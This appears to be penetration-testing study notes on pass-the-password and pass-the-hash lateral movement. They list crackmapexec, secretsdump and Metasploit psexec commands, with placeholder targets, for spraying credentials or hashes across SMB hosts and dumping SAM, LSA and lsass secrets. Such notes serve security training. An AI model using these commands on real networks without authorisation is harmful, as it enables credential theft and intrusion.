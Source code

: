 ## Pass Attacks Overview
- Pass the Password and Pass the Hash
- If we dump a password from SAM or crack a password, we can leverage it to pass around the network
- This is used for lateral movement in the network

### Pass the Password
- We can use crackmapexec to pass the password: `crackmapexec smb <ip/CIDR? -u <user> -d <domain> -p <pass>`
- Does this user have a successful login or local admin anywhere else?
- Look for `(Pwn3d!)`

### Pass the Hash
- Use metasploit: `exploit/windows/smb/psexec` or secretsdump: `secretsdump.py <domain>/<user>:<password>@<ip>` to run a hashdump
- Pass it: `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`

### More from crackmapexec
- Dump some data: `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam`
- Enumerate shares: `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares`
- Dump the LSA: `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa`
- Built in modules `crackmapexec smb -L`
- Dump the lsass: `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy`
- CME DB: `cmedb`
